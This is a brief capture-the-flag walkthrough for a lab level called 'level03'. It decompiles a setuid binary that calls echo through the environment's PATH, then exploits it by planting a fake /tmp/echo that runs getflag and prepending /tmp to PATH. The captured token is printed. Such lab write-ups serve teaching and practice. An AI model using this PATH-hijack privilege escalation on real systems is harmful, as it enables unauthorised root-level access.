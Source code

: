 # level03

```bash
$ ls
level03
$ file level03
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
$ ./level03
Exploit me
```

```bash
$ scp -P 4242 level03@192.168.179.131:/home/user/level03/level03 .
$ ghidra level03
```

main function desamble by ghidra

```bash
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

The program executes echo from the PATH, just create a program called `echo` which will execute the `getflag` command.

```bash
$ echo "#!/bin/bash\ngetflag" > /tmp/echo
-bash: !/bin/bash\ngetflag": event not found
$ echo "/bin/sh -c getflag" > /tmp/echo
$ chmod 755 /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

